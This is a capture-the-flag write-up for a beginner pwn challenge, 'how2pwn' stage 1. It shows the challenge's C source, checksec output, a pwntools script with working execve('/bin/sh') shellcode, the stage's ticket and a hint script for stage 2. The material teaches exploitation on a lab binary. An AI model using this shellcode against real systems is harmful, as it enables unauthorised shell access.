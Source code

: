 # how2pwn - Challenge 1

Categories: Pwn

**Tags:** pwn, shellcode, PIE shellcode

## Takeaways

- `execve("/bin/sh", ["/bin/sh", NULL], NULL)` shellcode
- Setting `al` does not clear the remaining upper bits of `rax`.
- PIE shellcode
- Use `hbreak` (hardware breakpoints) when dealing with shellcode, especially when you have self-modifying code or RWX regions.

## Solution

Let's take a look at the source code:

```c
#include <stdio.h>
#include <unistd.h>
void init(){
    // Set stdin/stdout unbuffered
    // So folks would not have io(input/output) issues
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}
int main(){
    init();
    // A buffer is created to store your shellcode
    char buf[0x100]; 
    puts("Enter your shellcode: ");
    read(0, buf, 0x100);
    // A functioner point is defined and points to the buffer.
    void (* p )(); 
    p = (void (*)()) buf;
    // Let's run the shellcode
    p();
    return 0;
}
```

As it seems, this is a simple shellcode challenge. We have `0x100` bytes to write in a buffer at the stack which then gets executed. Let's verify that the stack is also indeed executable:

```bash
nikos@ctf-box:~/how2pwn$ checksec --file=./public/bin/all/chal1
[*] '~/how2pwn/public/bin/all/chal1'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
nikos@ctf-box:~/how2pwn$ readelf --wide --segments ./public/bin/all/chal1 | grep -ie RWE
  GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
```

Let's write our simple shellcode now using pwntools:

```python
def craft_shellcode():
    # invoke syscall:
    # execve("/bin/sh", ["/bin/sh", NULL], NULL);
    shellcode = asm('''
    xor     rdx, rdx
    lea rbx, [rip+binsh]
    mov     rdi, rbx
    push    rdx
    push    rbx
    mov     rsi, rsp
    mov     eax, 0x3b
    syscall

    hang:
    jmp hang

    /************* Data section *************/
    binsh:
    .ascii "/bin/sh\\0"
    ''')
    padded_shellcode = shellcode + b'\x90'*(0x100 - len(shellcode)) # pad with NOPs
    assert(len(padded_shellcode) == 0x100)
    return padded_shellcode
```

Once we send our payload to the server, we are presented with the ticket and also a hint for the next challenge:

````bash
# Stage 1

Congrats(1/4)!

# Ticket
764fce03d863b5155db4af260374acc1

# Hints

```py
from pwn import *

p = process("./chal2")
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# For this challenge, your task is to get a shell with shorter shellcode: 0x10 bytes

# Tip 1: Some register have the correct values before running our shellcode! Let's use gdb to check these registers!

# Tip 2: The 0x10 bytes length limitation is too strict for execve("/bin/sh") cuz len("/bin/sh")==0x8. \
# Why don't we call read rather than execve \
# so we could read longer shellcode and execute "/bin/sh"

context.arch = 'amd64'
shellcode = f'''
short shellcode to read longer shellcode
'''
# gdb.attach(p)
shellcode = asm(shellcode)
print(len(shellcode))

p.sendafter(": \n",shellcode.ljust(0x10,b'\0'))

# If you sent proper shellcode which allows us to read longer shellcode,
# you can try the following code. It's an easier way to generate shellcode
# p.send(b"\x90"*len(shellcode)+asm(shellcraft.sh()))

p.interactive()
````

So the ticket is `764fce03d863b5155db4af260374acc1`
